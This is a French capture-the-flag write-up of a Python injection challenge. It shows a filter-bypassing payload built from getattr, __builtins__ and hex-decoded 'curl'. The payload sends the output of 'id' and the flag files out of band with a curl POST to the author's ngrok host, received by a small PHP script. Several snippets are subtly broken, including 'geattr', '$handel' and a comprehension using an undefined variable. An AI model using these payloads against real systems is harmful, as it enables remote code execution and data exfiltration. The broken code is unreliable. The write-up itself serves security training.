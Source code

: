 # WebJail

## Solution

- Le challenge nous fournit une page qui nous offre la possibilité d'exécuter des commandes via un formulaire.
- Note, les données de formulaire sont représentées de la manière suivante: ``command=rand&execute=Execute``
<br/>

![image](https://user-images.githubusercontent.com/74382279/157317880-896d7863-c7bd-4384-8bc6-b6ae7b3081a3.png)

- J'essaye d'envoyer une commande Python: ``print(1)``, mais aucun résultat. Je suppose donc qu'on doit jouer avec la requête pour trouver le bon point d'entrée.<br/>
- Pour ce faire je teste plusieurs techniques d'escape, quand finalement j'obtiens un résultat différent avec la commande suivante: ``);print(1)#``

![image](https://user-images.githubusercontent.com/74382279/157317785-2baf2def-ea0a-48e6-9e94-1079e55cc2a7.png)

- L'idée est d'importer la lib ``os`` pour exécuter des commandes Bash.  J'importe la lib ``os`` pour exécuter ``id``: ``);import os;os.popen('id').read()#``.
- Malheur, j'obtiens la réponse ``Blocked``. Je pars du principe que le chall contient un filtre qui match plusieurs fonctions Python, notamment ``read()``.
<br/>

![image](https://user-images.githubusercontent.com/74382279/157318532-29ad4480-d328-4db3-afcd-5042f5be7e0e.png)

- Je vais devoir builtin des fontions à partir de la lib ``__builtins__``.
- La méthode ``getattr()`` renvoie la valeur de l'attribut nommé d'un objet. S'il n'est pas trouvé, il renvoie la valeur par défaut fournie à la fonction.
- ``);geattr(__builtins__,'__imp''ort__')('o''s').popen('id')#``, par défaut j'utilise une méthode de concaténation pour éviter de faire trigger la commande par le filtre.
- N'oublions pas que la méthode ``read()`` n'est pas acceptée. Dans ce contexte on est supposé d'envoyer la requête en stdout vers un serveur web qu'on hébergera localement pour recept les données ``POST``. Tout ça ``OOB`` (Out of band). Les données ``OOB`` sont transférées via un flux indépendant du flux de données principal dans la bande.
- J'utilise Wampserv comme hébergeur local. First of all je script la fonction suivante en ``PHP``:

```php
<?php

if(isset($_POST["data"]) && !empty($_POST["data"])) {
  $handle = fopen("data.txt", "a+");
  fwrite($handel, $_POST["data"] . "\n");
  fclose($handle);
}

echo file_get_contents("data.txt");

?>
```

- J'héberge le fichier ``PHP`` dans le dossier ``tmp``. Comme tunnel j'utilise ``ngrok``: ``ngrok http 80``.
- J'ai maintenant mon lien, que je peux exploiter pour recept les données.
- Je reviens à la base, mais cette fois-ci en utilisant ``curl`` pour renvoyer une requête ``POST``: ``);geattr(__builtins__,'__imp''ort__')('o''s').popen('curl\x20-X\x20POST\x20-d\x20\x22data=$(id)\x22\x20https://rand.ngrok.io/tmp')#``.
- J'obtiens ``Blocked``, le filtre a donc trigger une partie de la commande. Ayant la flemme de chercher une alternative (``wget triggered``). Je teste plusieurs techniques de bypass: ``'CURL'.lower()`` => ``Blocked``. Puis une ne méthode de chiffrement pour déchiffrer dynamiquement et exécuter ``curl``.
```py
>>> ''.join([str(hex(ord(s)))[2:4] for s in 'curl'])
'6375726c'
>> ''.join([chr(int(''.join(c),16)) for s in zip('6375726c'[0::2],'6375726c'[1::2])])
'curl'
```
- Vous avez dû remarquer, j'ai réécrit la fonction ``hex()`` pour éviter une autre fois le filtre (Les méthodes ``bytes.fromhex()`` & ``bytearray.fromhex()`` sont filtrés) . Comme requête finale j'obtiens:
``);geattr(__builtins__,'__imp''ort__')('o''s').popen(''.join([chr(int(''.join(c),16)) for s in zip('6375726c'[0::2],'6375726c'[1::2])])+'\x20-X\x20POST\x20-d\x20\x22data=$(id)\x22\x20https://rand.ngrok.io/tmp')#``.
- Le serveur me renvoit bien la réponse:
<br/>

![image](https://user-images.githubusercontent.com/74382279/157323813-016de65c-4062-467f-a1a1-b2747ddee541.png)

``);geattr(__builtins__,'__imp''ort__')('o''s').popen(''.join([chr(int(''.join(c),16)) for s in zip('6375726c'[0::2],'6375726c'[1::2])])+'\x20-X\x20POST\x20-d\x20\x22data=$(cat flag/*)\x22\x20https://rand.ngrok.io/tmp')#``

- J'ai bien aimé l'approche du challenge. Je tiens à préciser que plusieurs techniques d'importation de l'objet ``__builtins__`` étaient filtrés:
```py
__builtins__.__import__("os").system("ls")
__builtins__.__dict__['__import__']("os").system("ls")
```
- Le module préimporté ``reload()`` était match. La variable ``__class__`` pareil.
- Je suis donc parti du principe que je devais utiliser ``getattr()``.
- Merci d'avoir lu cette mini-writeup d'un challenge web que j'ai trouvé assez sympa à solve.
